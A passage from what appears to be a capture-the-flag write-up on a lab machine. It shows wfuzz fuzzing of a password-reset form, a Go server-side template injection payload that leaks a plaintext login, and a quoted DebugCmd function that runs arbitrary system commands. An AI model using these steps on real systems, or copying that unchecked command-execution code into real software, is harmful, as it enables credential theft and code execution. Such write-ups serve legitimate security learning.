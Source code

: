 The page _index.html_ forwards to a different page, while _index.php_ forwards to the default website, which means that PHP is running in the background.

## Checking HTTP (Port 8080)

The webpage on port 8080 has a login form and the response header contains the header _X-Forwarded-Server: golang_, so this web server runs in the programming language **Golang**.

Fuzzing special characters on the login form:
```
wfuzz -u http://10.10.11.113:8080/forgot/ -w /usr/share/seclists/Fuzzing/special-chars.txt -d email=FUZZ --hw 97

wfuzz -u http://10.10.11.113:8080/forgot/ -w /usr/share/seclists/Fuzzing/special-chars.txt -d email=FUZZFUZZ --hw 97
```
```
=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================

000000006:   200        50 L     96 W       1497 Ch     "% - %"
000000008:   200        50 L     96 W       1497 Ch     "& - &"
000000014:   200        50 L     96 W       1499 Ch     "+ - +"
000000016:   502        7 L      11 W       150 Ch      "{ - {"
000000027:   200        50 L     96 W       1497 Ch     "; - ;"
```

The characters _"{{"_ have a different length and response, which means that **SSTI** could work.
When researching SSTI on Golang, there are two articles that describe how to do it:
- [Exploiting Go's template engine to get XSS](https://blog.takemyhand.xyz/2020/05/ssti-breaking-gos-template-engine-to.html)
- [Method Confusion in Go SSTIs lead to file read and RCE](https://www.onsecurity.io/blog/go-ssti-method-research/)

Testing a simple SSTI payload:
```
POST /forgot/ HTTP/1.1
Host: 10.10.11.113:8080
(...)

email={{ . }}
```

It responds with credentials that can be used to login to the website:
```
Email Sent To: {1 ippsec@hacking.esports ippsSecretPassword}
```

After login, it shows source code of the Golang application and in there, the function _DebugCmd_ allows to execute system commands:
```go
// (...)
func (u User) DebugCmd (test string) string {
  ipp := strings.Split(test, " ")
  bin := strings.Join(ipp[:1], " ")
  args := strings.Join(ipp[1:], " ")
  if len(args) > 0{
    out, _ := exec.Command(bin, args).CombinedOutput()
    return string(out)
  } else {
    out, _ := exec.Command(bin).CombinedOutput()
    return string(out)
  }
}
// (...)
```
